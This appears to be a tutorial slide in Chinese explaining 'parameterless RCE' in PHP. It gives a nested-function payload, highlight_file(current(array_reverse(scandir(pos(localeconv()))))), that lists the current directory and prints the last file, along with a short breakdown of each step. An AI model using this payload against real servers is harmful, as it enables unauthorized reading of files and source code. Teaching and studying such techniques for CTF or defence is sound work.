

无参RCE
指无法传入任何参数，只能使用php函数返回值作为参数。
highlight_file(current(array_reverse(scandir(pos(localeconv())))));

(scandir(pos(localeconv()))) = ls .

(current(array_reverse(scandir(pos(localeconv()))))) = 选中最后一个文件
phpstorm演示